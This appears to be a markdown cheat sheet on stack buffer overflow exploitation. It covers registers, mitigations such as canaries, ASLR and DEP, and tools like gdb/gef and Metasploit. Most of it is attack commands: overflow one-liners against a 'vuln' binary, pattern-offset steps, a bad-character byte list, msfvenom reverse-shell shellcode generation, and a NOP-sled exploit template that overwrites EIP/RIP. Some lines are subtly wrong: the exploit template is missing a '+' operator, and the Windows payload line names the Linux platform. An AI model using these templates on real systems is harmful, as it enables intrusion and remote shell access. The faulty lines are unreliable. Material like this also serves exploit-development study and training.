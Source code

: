# Buffer Overflows

## Register

> Data registers

|32-bit Register|64-bit Register|Description|
|-|-|-|
|EAX|RAX|Accumulator is used in input/output and for arithmetic operations|
|EBX|RBX|Base is used in indexed addressing|
|ECX|RCX|Counter is used to rotate instructions and count loops|
|EDX|RDX|Data is used for I/O and in arithmetic operations for multiply and divide operations involving large values|

> Pointer registers

|32-bit Register|64-bit Register|Description|
|-|-|-|
|EIP|RIP|Instruction Pointer stores the offset address of the next instruction to be executed|
|ESP|RSP|Stack Pointer points to the top of the stack|
|EBP|RBP|Base Pointer is also known as Stack Base Pointer or Frame Pointer thats points to the base of the stack|

## Prevention Techniques and Mechanisms

### Canaries

The canaries are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.

### Address Space Layout Randomization (ASLR)

Address Space Layout Randomization (ASLR) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ALSR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.

### Data Execution Prevention (DEP)

DEP is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

### Check for security mechanism for linux

### ASLR

```bash
sysctl kernel.randomize_va_space
```

If it return `2` then ASLR is enabled.

If it return `0` then ASLR is disabled.

### Binary security

```bash
checksec ./file
```

## Tools

### Windows

- idaPro <https://www.hex-rays.com/products/ida/index.shtml>
- x64dbg <https://github.com/x64dbg/x64dbg/releases/tag/snapshot>
- ERC
  - <https://github.com/Andy53/ERC.Xdbg/releases/tag/32>
  - <https://github.com/Andy53/ERC.Xdbg/releases/tag/64>

### Linux/Unix

- gdb/gef
- edb (GUI version of gdb)
- metasploit:
  - pattern_create.rb
  - pattern_offset.rb
  - msfvenom

## Exploit test

### Pass as argument

```bash
./vuln $(python -c 'print("A"*64 + "\xde\xad\xbe\xef")') 
```

### Pass to a gets() or scanf()

```bash
python -c 'print("A"*64 + "\xde\xad\xbe\xef")' | ./vuln 
```

### Pass as an environment variable

```bash
export EnvVar=$(python -c 'print("A"*64 + "\xde\xad\xbe\xef")')
./vuln
```

## Get buffer size

### metasploit

> Generate pattern

```bash
/opt/metasploit/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
```

> Match pattern

```bash
/opt/metasploit/tools/exploit/pattern_offset.rb -q 0xf7e729c8
```

### ERC

> Generate pattern

```cmd
ERC --pattern create 1200
```

> Match pattern

```cmd
ERC --pattern offset B5eB
```

### GEF

> Generate pattern

```cmd
gef➤  pattern create 300
```

> Match pattern

```cmd
gef➤  pattern search 0xf7e729c8
```

## Bad chars

```bash
./vuln $(python -c 'print("A"*64 + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")')
```

### Generating shellcode without bad chars

```bash
msfvenom -p linux/x86/shell_reverse_tcp EXITFUNC=thread LHOST=LOCAL_IPADDRESS LPORT=LOCAL_PORT --format c --arch x86 --platform linux --bad-chars "\x00"
msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=LOCAL_IPADDRESS LPORT=LOCAL_PORT --format c --arch x86 --platform linux --bad-chars "\x00"
```

Note: `EXITFUNC=thread` help to avoid killing the process when the shellcode is executed.

## Exploit

```bash
./vuln $(python -c 'print("A"*4 + ("\x90" * (BUFFER_SIZE - 4 - EXPLOIT_SIZE - 4))"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "VAR_ARDDRESS_EIP/RIP")')
```

## Gen asm instruction

/opt/metasploit/tools/exploit/nasm_shell.rb

```bash
nasm > inc eax
nasm > jmp eax
nasm > ASM_INSTRUCTION
```
